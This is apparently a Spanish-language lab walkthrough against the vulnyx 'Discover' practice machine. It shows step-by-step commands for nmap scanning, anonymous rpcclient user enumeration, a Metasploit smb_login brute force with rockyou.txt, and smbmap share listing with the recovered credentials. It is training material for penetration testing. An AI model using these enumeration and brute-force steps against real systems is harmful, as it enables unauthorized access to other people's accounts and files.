 # Enumeración de Usuarios SAMBA y uso de RPCCLIENT

Maquina que vamos a utilizar **Kali Linux y Discover** [https://vulnyx.com/#discover](https://vulnyx.com/#discover)

<aside>
💡

Aunque el protocolo **SMB** y el Samba corren por el mismo **puerto 445** no son lo mismo.

El protocolo **Samba** es una implementación libre del protocolo SMB (Server Message Block), que permite **compartir** archivos, impresoras y otros recursos **en redes entre sistemas Windows y Unix/Linux**. Samba facilita la comunicación entre dispositivos de diferentes plataformas, permitiendo que sistemas basados en Unix actúen como servidores o clientes en redes Windows. 

</aside>

En el momento que nos encontremos con el puerto 445 abierto o SAMBA funcionando, debemos de utilizar una **herramienta** conocida como **RPCCLIENT** para tratar de enumerar usuarios existentes dentro de la máquina objetivo.

```bash
sudo arp-scan -I eth0 --localnet
```

![image.png](./imagenes/image%2020.png)

```bash
nmap -p- -sS -sV -sC --open -min-rate=5000 -n -vvv -Pn 10.0.3.17
```

![image.png](./imagenes/image%2021.png)

- Empezamos con la **premisa que esta vez no tenemos usuarios ni contraseñas**.
- Utilizamos la **herramienta rpcclient.**
    
    `rpcclient -U "" -N 10.0.3.17`
    
    ![image.png](./imagenes/image%2022.png)
    
    Se nos muestra un prompt. Debemos conocer tres comandos importantes que podemos utilizar aquí:
    
    <aside>
    💡
    
    - **`srvinfo`**: Este comando proporciona **información** sobre el servidor remoto, como el **sistema operativo, el nombre del servidor y otros detalles relevantes.** Es útil para obtener una visión general del sistema objetivo.
    - **`querydispinfo`**: Este comando **enumera** información sobre los **usuarios del dominio**, como nombres de usuario y descripciones. Es útil para identificar cuentas activas en el sistema.
    - **`enumdomusers`**: Este comando **enumera todos los usuarios del dominio**. Es una forma eficaz de obtener una lista completa de las cuentas de usuario en el sistema remoto.
    </aside>
    
    ![image.png](./imagenes/image%2023.png)
    
    **Ya tengo los usuarios.**
    

- Vamos a usar Metasploit para hacer un ataque de fuerza bruta al puerto 445.
    
    Vamos a usar el scanner `scanner/smb/smb_login`
    
    - `use scanner/smb/smb_login`
        
        ![image.png](./imagenes/image%2024.png)
        

- `show options`
    
    ![image.png](./imagenes/image%2025.png)
    

- `set RHOSTS 10.0.3.17`
- `set PASS_FILE /usr/share/wordlists/rockyou.txt`
- `set VERBOSE false`
- `set SMBUser ken`
- `show options`
    
    ![image.png](./imagenes/image%2026.png)
    

- `run`
    
    ![image.png](./imagenes/image%2027.png)
    

- Una vez que ya tenemos el usuario y contraseña en un terminal  usamos la **herramienta smbmap.**
    
    ```bash
    smbmap -u 'ken' -p 'kenken' -H 10.0.3.17
    ```
    
    ![image.png](./imagenes/image%2028.png)
    

```bash
smbmap -u 'ken' -p 'kenken' -H 10.0.3.17 -r ken
```

![image.png](./imagenes/image%2029.png)